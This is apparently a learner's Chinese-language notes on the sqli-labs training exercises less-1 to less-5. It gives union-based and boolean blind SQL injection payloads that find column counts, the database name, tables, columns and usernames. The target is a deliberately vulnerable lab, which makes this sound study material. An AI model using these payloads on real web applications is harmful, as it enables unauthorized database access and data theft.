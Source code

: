 首先熟悉基本的sql注入流程
[见](SQL.emind)

# less-1
传入参数id,单引号闭合
?id=-1' union select 1,2,3%23
# less-2
id=1 and 1=2测试为数字型注入
?id=1 order by 3%23列数为3
.......

# less-3
测试1'
![](vx_images/34493657757787.png)
原句应该为select * from .. where ($id)
报错处发现),那么需要闭合)
id=-1') order by 4 %23

# less-4
测试1'
没有报错
1"报错
![](vx_images/347764632929433.png)
试试1") %23闭合
?id=1") order by 4 %23 成功
# less-5
![](vx_images/498836357486114.png)
发现只会回显这个,需要盲注了时间,bool都可以
先用bool盲注
先查看一下版本号
1' and** left**(version,1)=5 %23
![](vx_images/537023803399976.png)
说明第一位是正确的

看一下数据库长度
1' and length(database())=8 %23
长度为8时正确
![](vx_images/487035231041101.png)

猜数据库第一位
1' and left(database(),1)>'a' %23
这里可以用二分法提高效率
数据库为security()
![](vx_images/287493521601327.png)
若是left被禁用还可以用 **substr()和ascii()**尝试,下面用来查表
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 %23
查第二个字母改变substr(....,2,1)就可以了

那么如何查第二个表呢?
第一个表为limit 0,1
第二个表为limit 1,1

limit用法:
limit 0,1
第一个参数(从0开始)表示从第几行数据开始查，第二个参数表示查几条数据
limit 1 一个参数表示查几条数据

最终查到user表,下面再用正则regexp获取列
1' and 1=(select 1 from information_schema.columns where table_name='users' and table_name regexp % 27^us[a-z]' limit 0,1)--+
上述为查找user表下是否有us**的列

接下来用ord()和mid()查内容(没看懂)
1' and ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))= 68--+

#